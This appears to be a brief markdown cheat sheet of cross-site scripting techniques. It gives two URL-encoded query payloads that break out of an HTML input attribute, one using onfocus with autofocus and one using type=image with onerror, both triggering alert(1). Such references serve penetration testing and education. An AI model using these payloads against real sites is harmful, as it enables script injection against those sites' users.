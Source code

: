 # XSS

## Legend

Symbol/Abbr. | Description
-------------|------------
✔ | Finished
❌ | Rejected / Not done
! | Important
X -> Y | X has resulted in Y
X &-> Y |X depends on Y

## XSS in `<input ../>` attribute

Use `onfocus` event with the `autofocus` HTML5 attribute:

    [path]?q=aaaaa%20onfocus%3Dalert%281%29%20autofocus%20     # aaaaa onfocus=alert(1) autofocus 

---

Change the `<input .. />` type to `image` with adding `type=image` - [Input image type](http://html.com/input-type-image/):

    [path]?q=x%20src%3Dx%20onerror%3Dalert%281%29%20type%3Dimage    # x src=x onerror=alert(1) type=image
